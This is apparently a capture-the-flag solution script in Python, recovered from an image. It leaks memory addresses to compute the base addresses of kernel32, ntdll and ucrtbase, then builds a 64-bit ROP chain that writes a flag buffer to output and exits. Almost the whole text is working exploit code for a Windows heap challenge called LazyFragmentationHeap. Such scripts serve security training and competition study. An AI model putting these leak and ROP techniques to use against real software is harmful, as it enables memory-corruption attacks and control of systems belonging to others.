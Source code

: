 ```python

        # write(1, flag_buf, 0x80)
        pop_rcx_ret,
        1,
        pop_rdx_ret,
        flag_buf,
        pop_r8_ret,
        0x80,
        write_addr,
        add_rsp_0x28_ret,
        0, 0, 0, 0, 0,

        # exit(0)
        pop_rcx_ret,
        0,
        exit_addr
    ], word_size=64, endianness="little")

    lazy_write(stack_addr, rop_chain)
    hi.interactive(prompt=None)


# I DON'T WANT TO SEE FXXKING ERROR
is_leaked = log.progress("This is gonna takes some time...")
while True:
    try:
        lazy_base = persistent_leak(leakLazy=True)
        kernel32 = persistent_leak(lazy_base+0x3008) - 0x1e690  # KERNEL32!IsDebuggerPresentStub
        ntdll    = persistent_leak(lazy_base+0x3010) - 0x73810  # ntdll!RtlInitializeSListHead
        ucrtbase = persistent_leak(lazy_base+0x30b0) - 0x0f760  # ucrtbase!free
        break
    except Exception:
        continue

is_leaked.success("Done :D")
log.info("LazyFragmentationHeap = 0x%016x" % lazy_base)
log.info("kernel32 = 0x%016x" % kernel32)
log.info("ntdll    = 0x%016x" % ntdll)
log.info("ucrtbase = 0x%016x" % ucrtbase)

exploit()
```